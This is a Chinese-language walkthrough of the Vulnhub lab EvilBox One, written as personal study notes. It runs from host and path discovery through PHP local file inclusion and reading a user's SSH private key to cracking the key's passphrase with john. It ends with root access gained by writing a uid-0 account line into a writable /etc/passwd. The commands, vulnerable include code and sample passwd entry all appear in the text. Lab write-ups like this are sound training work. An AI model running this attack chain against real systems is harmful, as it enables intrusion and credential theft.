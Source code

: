 ```yaml
---
title: Chapter6_Easy_EvilBox_One
categories:
- Network_Security
- Vulnhub
- Chapter6
tags:
- Network_Security
- Vulnhub
date: 2024-04-05 13:32:28
---
```


# EvilBox_One 学习记录

## 1. 粗略学习记录

### 1.1 扫描打点 - PHP LFI

1. kali 自带的 fping 扫描
    `fping -gaq ip/cidr # g--generate a--alive q--quiet`
    ![image-20240201120011124](image-20240201120011124.png)

2. 扫描端口：
    ![image-20240201120047911](image-20240201120047911.png)

3. 路径爆破：
    ![image-20240201131818180](image-20240201131818180.png)
    尝试新工具：gobuster。
    gobuster 除了路径爆破，还会探测 CDN。其是用 go 语言编写的。
    `gobuster dir -u http://192.168.0.105 -w /usr/share/seclists/Discovery/Web-Content/directory-list-1.0.txt -x txt,php,html,jsp`
    ![image-20240201133031374](image-20240201133031374.png)

4. 访问一下，robots.txt 给了一串不明意义的字符串：`H4x0r`。/secret 访问是空白。
    ![image-20240201132104426](image-20240201132104426.png)

5. /secret 是新的路径，那么更换目标，再在 /secret 下进行目录爆破：
    ![image-20240201133327362](image-20240201133327362.png)

6. 访问 evil.php，结果还是空白。这时就要考虑进行参数爆破。除了 Burpsuite，这里使用 ffuf：
    `ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:param -w value.txt:value -u http://192.168.0.105/secret/evil.php?param=value -fs 0`，其中 value.txt 自己编辑，由常见的字符和符号组成。`-fs 0` 表示过滤掉页面为空的结果。是用的是 Burpsuite 的字典。
    ![image-20240201140607609](image-20240201140607609.png)
    结果没有结果。
    考虑是 PHP，往文件包含的思路靠拢，修改 value。
    `ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:param -u http://192.168.0.105/secret/evil.php?param=../index.html -fs 0`
    结果是有结果了：
    ![image-20240201141210002](image-20240201141210002.png)

7. 猜测是有文件包含漏洞，使用伪协议来读取 evil.php 的内容：
    ![image-20240201141536379](image-20240201141536379.png)
    解码后为：

    ```php
    <?php
        $filename = $_GET['command'];
        include($filename);
    ?>
    ```

8. 考虑 RFI 远程文件包含，在 kali 的 `/var/www/html` 下新建一句话，然后开启 apache2 服务：`systemctl start apache2`。访问：`evil.php?command=http://192.168.0.2/webshell.php?webshell=ls`。结果没有返回。因此目标可能只有 LFI 本地文件包含。

9. 试了一下 `input`，发现不能执行 PHP 代码。说明 `allow_url_include = false`。同样的 `filter` 也写入失败。

### 1.2 拿到 Shell - SSH 的公钥认证体系

1. 查看账户文件，有用户 mowree，使用 `ssh mowree@192.168.0.105 -v` 查看其可以登录的方式，结果有新发现：
    ![image-20240201145439517](image-20240201145439517.png)
    密码用 H4x0r 不行。这里看出有公钥的认证方式，因此思路就是：通过 SSH 公钥登录的用户，其主目录的 `.ssh/authorized` 中一般会有登录者的公钥。尝试访问：
    `command=/home/mowree/.ssh/authorized_keys`。结果如下：
    `ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDAXfEfC22Bpq40UDZ8QXeuQa6EVJPmW6BjB4Ud/knShqQ86qCUatKaNlMfdpzKaagEBtlVUYwit68VH5xHV/QIcAzWi+FNw0SB2KTYvS514pkYj2mqrONdu1LQLvgXIqbmV7MPyE2AsGoQrOftpLKLJ8JToaIUCgYsVPHvs9Jy3fka+qLRHb0HjekPOuMiq19OeBeuGViaqILY+w9h19ebZelN8fJKW3mX4mkpM7eH4C46J0cmbK3ztkZuQ9e8Z14yAhcehde+sEHFKVcPS0WkHl61aTQoH/XTky8dHatCUucUATnwjDvUMgrVZ5cTjr4Q4YSvSRSIgpDP2lNNs1B7 mowree@EvilBoxOne`

2. 根据 SSH 公钥认证的流程，需要一台电脑创建 RSA 的公钥和私钥，其中公钥由服务器保管，私钥分发给授权的用户。如果 SSH 配对的公私钥是服务器创建的，那么其默认的私钥保存地址就是 `.ssh/id_rsa`，而公钥是 `.ssh/id_rsa.pub`。尝试访问 `.ssh/id_rsa`，结果如下：
    ![image-20240201151805457](image-20240201151805457.png)

3. 复制下来，先赋予权限：
    `chmod 600`。
    登录：
    `ssh mowree@192.168.0.105 -i id_rsa`

4. 然后还需要 passphrase，即私钥的密码。这个无法获取，因此考虑爆破：
    ```bash
    cp /usr/share/wordlists/rockyou.txt.gz . # 用这个密码文件来爆破
    gunzip rockyou.txt.gz # 解压
    cd /usr/share/john
    ./ssh2john.py /home/hacker/id_rsa > /home/hacker/桌面/hash # 将密钥文件进行处理，变成可以被 john 工具使用的文件。
    john /home/hacker/桌面/hash --wordlist=/home/hacker/桌面/rockyou.txt
    ```

    成功破解：
    ![image-20240201153517595](image-20240201153517595.png)
    尝试登录，成功！

5. 拿到第一个 flag：
    ![image-20240201154346570](image-20240201154346570.png)

### 1.3 提权 - 文件配置不当

1. 提权，常见的方法都不行。最终考虑一些可编辑的脚本文件，其执行时以 root 权限执行：
    ```bash
    find / -writable 2>/dev/null
    find / -writable 2>/dev/null | grep -v proc # 结果过滤
    ```

    最终发现异常：
    ![image-20240201160102054](image-20240201160102054.png)
    ![image-20240201160224501](image-20240201160224501.png)

2. 那最终目标就是操作 passwd 文件。一个方向就是修改 passwd，将 root 的密码占位符 `x` 换成自己生成的加盐密码，或者新建一个属于 root 组的账号。
    ![image-20240201161007238](image-20240201161007238.png)

    ![image-20240201161858594](image-20240201161858594.png)然后将这个密文复制并覆盖，这时影子文件中的密码将会失效。

3. 获取 flag：
    ![image-20240201161713975](image-20240201161713975.png)

4. 也可以通过建立账户来实现：
    `hacker:$1$ZY4xtyhY$aSKuj8Y8nbqvlYToyAsw9/:0:0:root:/root:/bin/bash` 写入。
    然后登录 hacker 即可。

## 2. 要点总结

1. 新主机发现工具 fping。
2. 新路径爆破工具 gobuster。
3. “子路径爆破”的思想。
4. 参数爆破工具 ffuf 与“参数爆破”的思想
5. SSH 公钥体系的渗透，SSH 公钥体系认证流程，私钥密码爆破。
6. /etc/passwd 文件的属性。
